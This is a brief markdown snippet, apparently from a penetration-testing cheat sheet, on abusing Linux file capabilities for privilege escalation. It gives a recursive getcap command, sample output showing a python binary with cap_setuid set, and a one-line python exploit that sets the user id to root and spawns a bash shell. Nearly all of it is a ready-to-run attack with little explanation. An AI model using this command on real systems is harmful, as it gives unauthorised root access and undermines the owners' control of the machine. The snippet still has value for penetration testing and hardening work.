  ### Capabilities 
 
 ## Type Command
 
   getcap -r / 2>/dev/null
 
 ## Output
 
 /usr/bin/python2.6 = cap_setuid+ep
    
 ## Exploit
 
    /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   
